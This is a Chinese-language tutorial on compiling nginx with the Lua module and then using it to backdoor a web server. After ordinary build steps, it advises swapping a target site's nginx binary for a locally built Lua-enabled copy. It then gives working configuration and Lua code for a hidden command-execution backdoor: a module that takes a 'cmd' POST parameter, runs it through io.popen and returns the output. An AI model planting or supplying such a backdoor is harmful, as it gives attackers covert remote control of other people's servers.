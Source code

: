 #### 为nginx安装lua-nginx-module
为nginx安装lua-nginx-module分为以下几个步骤：

1. 安装LuaJIT 2.0或2.1或 lua 5.1（5.2以上版本不支持）
1. 下载ngx_devel_kit、 ngx_lua

编译安装过程如下：
```shell
wget 'http://nginx.org/download/nginx-1.9.15.tar.gz'
 tar -xzvf nginx-1.9.15.tar.gz
 cd nginx-1.9.15/
 export LUAJIT_LIB=/path/to/luajit/lib
 export LUAJIT_INC=/path/to/luajit/include/luajit-2.1
 ./configure --prefix=/opt/nginx \
         --with-ld-opt="-Wl,-rpath,/path/to/luajit-or-lua/lib" \
         --add-module=/path/to/ngx_devel_kit \
         --add-module=/path/to/lua-nginx-module
 make -j2
 make install
```
nginx 1.9.11及以后的版本支持动态加载模块，将ngx_devel_kit、 ngx_lua编译为.so文 件，通过load_module指令就可以加载到nginx中了，
```shell
load_module /path/to/modules/ndk_http_module.so;  # assuming NDK is built as a dynamic module too
load_module /path/to/modules/ngx_http_lua_module.so;
```
将nginx模块编译为动态模块的方法可以参考：https://www.nginx.com/resources/wiki/extending/converting/
在实际的应用中，如果目标网站中是原生的nginx，我们也可以考虑用nginx -V命令获取到目标网站的编译参数，然后在本地虚拟机中编译一个相同版本、带有lua模块的nginx二进制文件替换到目标站点的。

### 后门
在nginx.conf文件中的http节中加入如下内容：
```shell
http {
  include       mime.types;
  # lua 文件的位置
  lua_package_path "/usr/local/openresty/nginx/conf/lua_src/?.lua;;";
  # nginx启动阶段时执行的脚本，可以不加
  init_by_lua_file 'conf/lua_src/Init.lua';
```
conf/lua_src/Init.lua中的内容如下：
```lua
local p = "/usr/local/openresty/nginx/conf/lua_src"
local m_package_path = package.path
package.path = string.format("%s?.lua;%s?/init.lua;%s", p, p, m_package_path)
cmd = require("t")
```
cmd = require("t")表示加载了t.lua中的模块，并命名为cmd，以后在nginx的所有执行阶段通过cmd变量就可以调用了。
t.lua实现了一个简单的命令执行功能，如下所示：
```lua
local _M = {}
function _M.run()
    ngx.req.read_body()
    local post_args = ngx.req.get_post_args()
    -- for k, v in pairs(post_args) do
    --    ngx.say(string.format("%s = %s", k, v))
    -- end
    local cmd = post_args["cmd"]
    if cmd then
        f_ret = io.popen(cmd)
        local ret = f_ret:read("*a")
        ngx.say(string.format("reply:\n%s", ret))
    end
end
return _M
```

